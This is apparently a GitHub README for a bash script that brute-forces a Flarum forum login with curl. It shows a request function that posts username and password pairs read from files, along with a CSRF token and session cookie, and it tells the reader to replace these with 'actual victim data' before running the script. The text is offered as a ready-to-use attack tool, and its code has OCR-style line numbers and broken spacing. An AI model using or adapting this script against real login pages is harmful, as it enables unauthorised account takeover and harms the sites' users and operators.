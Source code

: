 # Overview
Brute force using curl for user/passford fields 

<img src="https://github.com/Alexandersfg4/pictures/blob/master/Screenshot%202021-02-07%20at%2015.03.01.png" height="717" width="700">


## Getting started
1. Change url/headers/X-CSRF-Token/cookies to actual victim data
```
Request (){
  5 curl -o /dev/null -s -w "%{http_code}\n" -X POST -H "Content-Type: applicat    ion/json" \
  6         -H "Accept: */*" \
  7         -H "Accept-Encoding: gzip, deflate" \
  8         -H "Accept-Language: en-us" \
  9         -H "Origin: http://172.16.4.3:8080" \
 10         -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) App    leWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15" \
 11         -H "Connection: keep-alive" \
 12         -H "Referer: http://172.16.4.3:8080/" \
 13         -H "X-CSRF-Token: qheH4dzPl0nSkjPlkIZtm3pIfX4pgjaAxVlWFI15" \      
 14         -H "Cookie: flarum_session=C9J70piUW3WDKAee3sf619I744n9ImW3ecPv3Lai    " \
 15         -d "{\"identification\":\"$user_in_file\",\"password\":\"$password_    in_file\",\"remember\":false}" \
 16         http://172.16.4.3:8080/login
 17 }
```
1. Add data to passwords.txt and usernames.txt files
1. And than run the script ``` ./bruteforce.sh ```
